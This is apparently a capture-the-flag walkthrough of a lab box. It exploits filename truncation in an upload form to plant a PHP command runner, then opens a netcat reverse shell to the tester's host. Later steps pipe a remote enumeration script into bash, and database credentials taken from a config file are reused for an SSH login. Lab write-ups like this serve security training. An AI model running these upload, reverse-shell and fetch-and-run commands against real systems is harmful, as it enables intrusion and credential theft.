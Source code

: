 Uploading the file:
```markdown
http://10.10.14.2/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
```
```markdown
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php
```

In the output it shows that it got uploaded to _/uploads/1107-1732_81bd4b9e347ce395_ and when browsing there and appending the name of the PHP file with a system command, it executes them:
```markdown
http://10.10.10.73/uploads/1107-1732_81bd4b9e347ce395/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php?cmd=whoami
```

The output is _www-data_ and command execution was successful, so starting a reverse shell is possible:
```markdown
(...)AAAAA.php?cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# URL-encoded:
(...)AAAAA.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.2+9001>/tmp/f
```

After sending the request the listener on my IP and port 9001 starts a reverse shell session as _www-data_.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Linux Enumeration Script**:
```markdown
curl 10.10.14.2/LinEnum.sh | bash
```

One interesting result is that the user _yossi_ is currently logged into a physical terminal _tty/1_.

In the directory _/var/www/html_ are the configuration files of the web page and the file _connection.php_ has the connection configuration to the database which includes credentials of a user:
```markdown
define('DB_USERNAME', 'moshe');
define('DB_PASSWORD', 'falafelIsReallyTasty');
```

The user _moshe_ exists on the box and access via SSH works.
```markdown
ssh moshe@10.10.10.73
```
